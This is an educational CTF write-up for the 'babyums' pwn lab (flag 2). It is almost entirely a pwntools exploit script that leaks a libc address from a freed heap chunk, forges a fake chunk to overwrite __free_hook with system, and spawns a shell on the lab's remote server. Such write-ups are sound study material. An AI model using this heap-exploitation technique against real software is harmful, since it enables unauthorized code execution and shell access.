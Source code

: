 ```yaml
---
title: Simple PWN 0x20(Lab - `babyums` - flag 2)
tags: [CTF, PWN, eductf]

---
```


# Simple PWN 0x20(Lab - `babyums` - flag 2)
###### tags: `CTF` `PWN` `eductf`

Version: Ubuntu 20.04

## Original Code
[Simple PWN 0x19(Lab - `babyums` - flag 1)](/2bR8lalySvKfA7Zr8DOhuA)


## Exploit
Very similar in this article: [0x18(Lab - `babynote`)](/zj3FTgxZQ22EgRPn1KHUSg)
:::spoiler code
```python=
from pwn import *

# r = process('./chal')
r = remote('edu-ctf.zoolab.org', 10008)

context.arch = 'amd64'

def add_user(idx, user_name, user_passwd):
    r.sendafter(b'> ', b'1')
    r.sendlineafter(b'index\n> ', str(idx))
    r.sendafter(b'username\n> ', user_name)
    r.sendafter(b'password\n> ', user_passwd)

def edit_data(idx, note_size, message):
    r.sendafter(b"> ", b"2")
    r.sendlineafter(b'index\n> ', str(idx))
    r.sendlineafter(b'size\n> ', str(note_size))
    r.send(message)

def del_user(idx):
    r.sendafter(b"> ", b"3")
    r.sendlineafter(b'index\n> ', str(idx))

def show_user():
    r.sendafter(b"> ", b"4")


'''------------------
Construct heap memory
------------------'''
add_user(0, b'a'*8, b'aaaa')
edit_data(0, 0x418, b'a')

add_user(1, b'b'*8, b'bbbb')
edit_data(1, 0x18, b'b')

add_user(2, b'c'*8, b'cccc')

'''------------------
Leak libc address
------------------'''
del_user(0)
show_user()
r.recvuntil(b'data:')
libc = (u64(r.recv(8)) >> 8) - 0x1ecbe0 - 0xa000000000000
info(f"libc address: {hex(libc)}")
free_hook_addr = libc + 0x1eee48
info(f"__free_hook address: {hex(free_hook_addr)}")
libc_sys_addr = libc + 0x52290
info(f"__libc_system address: {hex(libc_sys_addr)}")

'''------------------
Construct fake chunk
------------------'''
data = b'/bin/sh\x00'.ljust(0x10, b'b')
fake_chunk = flat(
    0, 0x31,
    b'cccccccc', b'cccccccc',
    b'cccccccc', b'cccccccc',
    free_hook_addr
)

edit_data(1, 0x48, data + fake_chunk)
edit_data(2, 0x8, p64(libc_sys_addr))
del_user(1)

r.interactive()
```
:::